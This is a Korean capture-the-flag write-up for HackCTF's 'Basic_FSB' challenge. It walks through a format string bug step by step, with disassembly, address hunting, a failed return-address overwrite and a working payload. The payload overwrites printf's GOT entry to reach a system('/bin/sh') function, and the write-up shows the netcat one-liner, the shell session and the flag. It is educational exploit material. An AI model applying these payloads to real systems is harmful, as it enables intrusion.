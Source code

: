 #Basic_FSB

---

기본적인 format string bug 문제이다. 우선 ida를 이용하여 보았더니 다음과 같은 취약한 함수가 보였다.

    int vuln()
    {
      char s; // [esp+0h] [ebp-808h]
      char format; // [esp+400h] [ebp-408h]
    
      printf("input : ");
      fgets(&s, 1024, stdin);
      snprintf(&format, 0x400u, &s);
      return printf(&format);
    }

이 코드에서는 s에 입력한 문자열을 format으로 옮긴다음 format을 실행시킨다. 이 취약한 함수 `vuln()`의 assembly code는 다음과 같다.

```assembly
gdb-peda$ pd vuln
Dump of assembler code for function vuln:
   0x0804854b <+0>:	push   ebp
   0x0804854c <+1>:	mov    ebp,esp
   0x0804854e <+3>:	sub    esp,0x808
   0x08048554 <+9>:	sub    esp,0xc
   0x08048557 <+12>:	push   0x80486b0
   0x0804855c <+17>:	call   0x80483d0 <printf@plt>
   0x08048561 <+22>:	add    esp,0x10
   0x08048564 <+25>:	mov    eax,ds:0x804a040
   0x08048569 <+30>:	sub    esp,0x4
   0x0804856c <+33>:	push   eax
   0x0804856d <+34>:	push   0x400
   0x08048572 <+39>:	lea    eax,[ebp-0x808]
   0x08048578 <+45>:	push   eax
   0x08048579 <+46>:	call   0x80483e0 <fgets@plt>
   0x0804857e <+51>:	add    esp,0x10
   0x08048581 <+54>:	sub    esp,0x4
   0x08048584 <+57>:	lea    eax,[ebp-0x808]
   0x0804858a <+63>:	push   eax
   0x0804858b <+64>:	push   0x400
   0x08048590 <+69>:	lea    eax,[ebp-0x408]
   0x08048596 <+75>:	push   eax
   0x08048597 <+76>:	call   0x8048430 <snprintf@plt>
   0x0804859c <+81>:	add    esp,0x10
   0x0804859f <+84>:	sub    esp,0xc
   0x080485a2 <+87>:	lea    eax,[ebp-0x408]
   0x080485a8 <+93>:	push   eax
   0x080485a9 <+94>:	call   0x80483d0 <printf@plt>
   0x080485ae <+99>:	add    esp,0x10
   0x080485b1 <+102>:	nop
   0x080485b2 <+103>:	leave  
   0x080485b3 <+104>:	ret    
End of assembler dump.
```

이 함수의 ret주소를 다음 `flag()`의 주소로 바꾼다면 쉘을 따낼 수 있을 것이다.

    int flag()
    {
      puts("EN)you have successfully modified the value :)");
      puts(aKr);
      return system("/bin/sh");
    }

---


`vuln()+104`에서 break를 걸고 `vuln()`의 ret주소의 위치를 찾아보자.

    [----------------------------------registers-----------------------------------]
    EAX: 0x5 
    EBX: 0x0 
    ECX: 0xffffffff 
    EDX: 0xf7fb7870 --> 0x0 
    ESI: 0xf7fb6000 --> 0x1b1db0 
    EDI: 0xf7fb6000 --> 0x1b1db0 
    EBP: 0xffffce68 --> 0x0 
    ESP: 0xffffce5c --> 0x8048617 (<main+42>:	moveax,0x0)
    EIP: 0x80485b3 (<vuln+104>:	ret)
    EFLAGS: 0x286 (carry PARITY adjust zero SIGN trap INTERRUPT direction overflow)
    [-------------------------------------code-------------------------------------]
       0x80485ae <vuln+99>:	add esp,0x10
       0x80485b1 <vuln+102>:	nop
       0x80485b2 <vuln+103>:	leave  
    => 0x80485b3 <vuln+104>:	ret
       0x80485b4 <flag>:	push   ebp
       0x80485b5 <flag+1>:	mov ebp,esp
       0x80485b7 <flag+3>:	sub esp,0x8
       0x80485ba <flag+6>:	sub esp,0xc

이때의 esp의 주소는 0xffffce5c이다. 때문에 `vuln()`의 return address는 0xffffce5c이다.

**vuln() return address: 0xffffce5c**


또한 `flag()`의 주소는 다음과 같다.

    gdb-peda$ p flag
    $1 = {<text variable, no debug info>} 0x80485b4 <flag>

**flag() address: 0x80485b4**

---

필요한 정보를 모두 얻었으니 적절한 payload를 찾아보자. 


    int vuln()
    {
      char s; // [esp+0h] [ebp-808h]
      char format; // [esp+400h] [ebp-408h]
    
      printf("input : ");
      fgets(&s, 1024, stdin);
      snprintf(&format, 0x400u, &s);
      return printf(&format);
    }

다음 코드에서 `printf()`에서 취약점이 발생하는데, 이 함수가 실행될 때의 stack상황은 다음과 같다.

**<lower\> SFP(4bytes) - printf() return address(4bytes) - format주소(4bytes) - s(1024bytes) - format(1024bytes) <higher\>**

0xffffce5c에 대입하고자 하는 주소인 0x80485b4는 134514100이기 때문에 int범위 안에 속한다. 때문에 %n을 이용해서 한번에 처리할 수 있다.

때문에 payload를 다음과 같이 짤 것이다.

**[dummy 4bytes]+[0xffffce5c]+%134514092x+%n**

134514092라는 값은 0x80485b4인 134514100에서 앞에 출력된 8bytes를 뺀 값이다.

이를 시도하려고 했지만 ASLR때문에 이 방법은 불가능하다는 것을 알게 되었다.

---

위와 비슷하지만 조금 다른 방법을 떠올려보자. 

보안기법을 보면 다음과 같다.

    gdb-peda$ checksec
    CANARY    : disabled
    FORTIFY   : disabled
    NX        : disabled
    PIE       : disabled
    RELRO     : Partial

때문에 got overwrite가 가능하다.

이번에는 조금 다르게 `snprintf()`에서 format string bug를 일으켜 `printf()`의 got를 flag의 주소로 overwrite 할 것이다.

이를 위해서 필요한 정보를 찾아보자.

우선 `printf()`의 got주소는 다음과 같다.

    gdb-peda$ p printf
    $2 = {<text variable, no debug info>} 0x80483d0 <printf@plt>
    gdb-peda$ x/i 0x80483d0
       0x80483d0 <printf@plt>:	jmp DWORD PTR ds:0x804a00c

**printf() got address: 0x804a00c**

그리고 `flag()`의 주소는 다음과 같음을 위에서 알 수 있었다.

**flag() address: 0x80485b4**

---

이제 다시 적절한 payload를 짜보자.

    int vuln()
    {
      char s; // [esp+0h] [ebp-808h]
      char format; // [esp+400h] [ebp-408h]
    
      printf("input : ");
      fgets(&s, 1024, stdin);
      snprintf(&format, 0x400u, &s);
      return printf(&format);
    }

다음과 같은 코드에서 `snprintf()`가 실행될 때의 stack상황은 다음과 같다.

**<lower\> SFP(4bytes) - snprintf() return address(4bytes) - format address(4bytes) - 0x400u(4bytes) - s address(4bytes) - format(1024bytes) - s(1024bytes) <higher\>**

0x80485b4를 십진수로 변환하면 134514100이기 때문에 다음과 같이 payload를 짤 수 있다.

**0x804a00c + %134514096x + %$257n**

134514096이라는 숫자는 0x80485b4를 십진수로 변환한 134514100에서 앞에 나온 4bytes를 뺀 값이다. 또한 %$257n은 stack상황에서 s address와 s의 위치가 1024bytes 차이가 나기 때문에 다음과 같이 지정해야 257번째 인자의 위치가 0x804a00c가 된다.

    sjy0175@sjy0175-VirtualBox:~/Desktop/HackCTF/Pwnable/3.Basic_FSB$ (python -c "print '\x0c\xa0\x04\x08'+'%134514096x'+'%$257n'";cat) | nc ctf.j0n9hyun.xyz 3002
    input : EN)you have successfully modified the value :)
    KR)#값조작 #성공적 #플래그 #FSB :)
    pwd
    /home/attack
    ls
    flag
    main
    cat flag
    HackCTF{여보게_오늘_반찬은_포맷스트링이_어떠한가?}

**flag: HackCTF{여보게\_오늘\_반찬은\_포맷스트링이\_어떠한가?}**
    
